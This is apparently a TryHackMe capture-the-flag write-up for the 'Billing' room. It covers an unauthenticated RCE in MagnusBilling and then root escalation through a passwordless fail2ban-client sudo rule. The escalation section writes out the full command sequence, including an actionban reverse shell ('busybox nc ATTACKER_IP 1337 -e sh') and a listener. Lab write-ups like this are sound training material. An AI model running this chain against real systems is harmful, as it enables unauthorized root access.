







This is a write-up for Billing on TryHackMe. The room begins with a MagnusBilling application, where unauthenticated command execution provides an initial shell. A passwordless fail2ban-client sudo rule then leads to root.
./01 Reconnaissance
After launching the instance, I immediately ran Nmap to identify the exposed services.
nmap -sC -sV TARGET_IP
While enumerating the web application, I found the /mbilling/ directory. Opening it presented a MagnusBilling login page.

./02 Initial Access
I looked for public exploits affecting MagnusBilling and found an unauthenticated remote-command-execution exploit.

Running the exploit gave me a shell as asterisk.

./03 Privilege Escalation
After establishing a more stable shell, I checked the sudo permissions with sudo -l and found an interesting rule:
sudo -l
Because fail2ban-client can be run as root, I checked GTFOBins for a usable technique. The commands run through it execute with elevated privileges, but their output is hidden, so simply spawning an interactive shell would not work.

The approach was to create a jail with an actionban command. When the jail banned an IP address, that action would run as root. Since the output would be hidden, my first thought was to use the action to send a reverse shell back to my listener.
sudo fail2ban-client add maliciousJail
sudo fail2ban-client set maliciousJail addaction maliciousJail
sudo fail2ban-client set maliciousJail action maliciousJail actionban 'busybox nc ATTACKER_IP 1337 -e sh'
sudo fail2ban-client start maliciousJail
sudo fail2ban-client set maliciousJail banip 1.2.3.4
nc -lvnp 1337
The reverse shell connected successfully, and I now had root access.
The attack chain was: find the MagnusBilling installation, use its public unauthenticated RCE for an initial shell, then abuse the passwordless fail2ban-client sudo permission to execute a reverse-shell action as root.